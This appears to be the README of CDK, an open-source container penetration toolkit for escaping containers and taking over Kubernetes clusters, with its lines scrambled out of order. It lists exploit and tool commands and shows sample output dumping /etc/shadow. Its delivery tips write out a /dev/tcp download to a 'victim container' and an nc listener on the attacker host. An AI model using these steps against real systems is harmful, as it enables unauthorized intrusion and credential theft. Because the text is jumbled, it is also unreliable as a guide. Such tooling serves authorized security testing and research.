 
  -h --help     Show this help msg.
  -v --version  Show version.
  <img src="https://contrib.rocks/image?repo=cdk-team/cdk" />
  cdk <tool> [<args>...]
  cdk auto-escape <cmd>                     Escape container in different ways then let target execute <cmd>.
  cdk evaluate                              Gather information to find weakness inside container.
  cdk evaluate --full                       Enable file scan during information gathering.
  cdk evaluate [--full]
  cdk run (--list | <exploit> [<args>...])
  cdk run --list                            List all available exploits.
  cdk run <exploit> [<args>...]             Run single exploit, docs in https://github.com/cdk-team/CDK/wiki
  ectl <endpoint> get <key>                 Unauthorized enumeration of ectd keys.
  ifconfig                                  Show network information.
  kcurl <path> (get|post) <uri> <data>      Make request to K8s api-server.
  nc [options]                              Create TCP tunnel.
  probe <ip> <port> <parallel> <timeout-ms> TCP port scan, example: cdk probe 10.0.1.0-255 80,8080-9443 50 1000
  ps                                        Show process information like "ps -ef" command.
  ucurl (get|post) <socket> <uri> <data>    Make request to docker unix socket.
  vi <file>                                 Edit files in container like "vi" command.
![png](https://github.com/knownsec/404StarLink-Project/raw/master/logo.png)
![png](https://user-images.githubusercontent.com/7868679/177925206-8d83dc95-0f2f-4d61-9a45-0d43b1b0468f.png)
# CDK - Zero Dependency Container Penetration Toolkit
# CDK-Deploy-Test
## Contributing to CDK
## Developer Docs
## Events
## Features
## Installation/Delivery
## Legal Disclaimer
## Overview
## Quick Start
## Usage
### 404StarLink 2.0 - Galaxy
### BlackHat Asia 2021 Arsenal
### Evaluate Module
### Exploit Module
### HITB SecConf 2021 Amsterdam
### KCON 2021 Arsenal
### Kubernetes community Days 2021 
### Release Document
### TIPS: Deliver CDK into target container in real-world penetration testing
### Tool Module
#### Bug Reporting
#### Pull Requests
#### Suggesting Enhancements
(on your host)
* Describe the current CDK version, environment, problem and exact steps that reproduce the problem.
* Explain why this enhancement would be useful to other users.
* If you are committing a new evaluate/exploit scripts, please add a simple doc to your PR message, here is an [example](https://github.com/cdk-team/CDK/wiki/Exploit:-docker-sock-deploy).
* Please enable a sustainable environment for us to review contributions.
* Running screenshots or logs before and after you fix the problem.
* Screenshots about how this new feature works.
* [run test in container.](https://github.com/cdk-team/CDK/wiki/Run-Test)
* https://github.com/cdk-team/CDK/wiki/Run-Test**Note about Thin:** The **thin release** is prepared for short life container shells such as serverless functions. We add build tags in source code and cut a few exploits to get the binary lighter. The 2MB file contains 90% of CDK functions, also you can pick up useful exploits in CDK source code to build your own lightweight binary.
- [Briefing: "Attack Cloud Native Kubernetes"](https://conference.hitb.org/hitbsecconf2021ams/sessions/attacking-cloud-native-kubernetes-with-cdk/)
- [CDK: Also a Awesome BugBounty Tool for Cloud Platform](https://github.com/neargle/slidefiles/blob/main/2021%20WHC2021%20CDK-Also-a-Awesome-BugBounty-Tool-for-Cloud-Platform.pptx.pdf)
- [http://kcon.knownsec.com/2021/#/arsenal](http://kcon.knownsec.com/2021/#/arsenal)
- [https://community.cncf.io/events/details/cncf-kcd-china-presents-kubernetes-community-days-china/](https://community.cncf.io/events/details/cncf-kcd-china-presents-kubernetes-community-days-china/)
- [https://github.com/knownsec/404StarLink2.0-Galaxy#community](https://github.com/knownsec/404StarLink2.0-Galaxy#community)
- [https://www.blackhat.com/asia-21/arsenal/schedule/index.html#cdk-zero-dependency-container-penetration-toolkit-22422](https://www.blackhat.com/asia-21/arsenal/schedule/index.html#cdk-zero-dependency-container-penetration-toolkit-22422)
1. Evaluate: gather information inside container to find potential weakness.
1. First, host CDK binary on your host with public IP.
2. Exploit: for container escaping, persistance and lateral movement
2. Inside the victim container execute
3. Tool: network-tools and APIs for TCP/HTTP requests, tunnels and K8s cluster management.
</a>
<a href="https://github.com/cdk-team/cdk/graphs/contributors">
> ./cdk eva --full
> ./cdk run cap-dac-read-search
Auto Escape:
Bugs are tracked as [GitHub Issues](https://github.com/cdk-team/CDK/issues). Create an issue with the current CDK version, error msg and the environment. Describe the exact steps which reproduce the problem.
CDK has three modules:
CDK is an open-sourced container penetration toolkit, designed for offering stable exploitation in different slimmed containers without any OS dependency. It comes with useful net-tools and many powerful PoCs/EXPs and helps you to escape container and take over K8s cluster easily.
CDK is for security testing purposes only.
Critical - Possible Privileged Container Found.
Critical - SYS_ADMIN Capability Found. Try 'cdk run rewrite-cgroup-devices/mount-cgroup/...'.
Download latest release in https://github.com/cdk-team/CDK/releases/
Drop executable files into the target container and start testing.
Enhancement suggestions are tracked as [GitHub Discussions](https://github.com/cdk-team/CDK/discussions). You can publish any thoughts here to discuss with developers directly.
Evaluate:
Exploit:
First off, thanks for taking the time to contribute!
Fix problems or maintain CDK's quality:
If you have a RCE exploit, but the target container has no `curl` or `wget`, you can use the following method to deliver CDK:
If you have an exploit that can upload a file, then you can upload CDK binary directly.
If you want to know how we released a new version, how thin is produced, why we provide upx versions, what the differences between different versions about all, normal, thin, upx are, and how to choose specific CDK exploits and tools to compile an own release for yourself, please check the [Release Document](https://github.com/cdk-team/CDK/wiki/Release).
List all available exploits:
New feature or exploits:
Options:
Project CDK is now included in 404Team [Starlink Project 2.0](https://github.com/knownsec/404StarLink2.0-Galaxy). Join the StarLink community to get in touch with CDK dev-team.
Run **`cdk eva`** to get evaluate info and a recommend exploit, then run **`cdk run`** to start the attack.
Run targeted exploit:
Running commands like in Linux, little different in input-args, see the usage link.
Running with target: /etc/shadow, ref: /etc/hostname
Thanks for the following contributors:
This command will run the scripts below without local file scanning, using `--full` to enable all.
This is the function test script, see doc: 
Tool:
Usage
Usage of CDK for attacking targets without prior mutual consent is illegal.
Usage:
[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.
[!] CAP_SYS_MODULE enabled. You can escape the container via loading kernel module. More info at https://xcellerator.github.io/posts/docker_escape/.
[*] Maybe you can exploit the *Capabilities* below:
```
bin:*:18659:0:99999:7:::
cat < /dev/tcp/(your_public_host_ip)/(port) > cdk
cdk evaluate [--full]
cdk nc [options]
cdk ps
cdk run --list
cdk run <script-name> [options]
chmod a+x cdk
daemon:*:18659:0:99999:7:::
nc -lvp 999 < cdk
root:*:18659:0:99999:7:::
ubuntu:$6$*******:19173:0:99999:7:::
| Tactic               | Technique                                                  | CDK Exploit Name       | Supported | In Thin                                                                    | Doc                                                                                  |
|----------------------|------------------------------------------------------------|------------------------|-----------|----------------------------------------------------------------------------|--------------------------------------------------------------------------------------|
|---|---|---|---|
|Command|Description|Supported|Usage/Example|
|Tactics|Script|Supported|Usage/Example|
|rcurl|Request to Docker Registry API|||
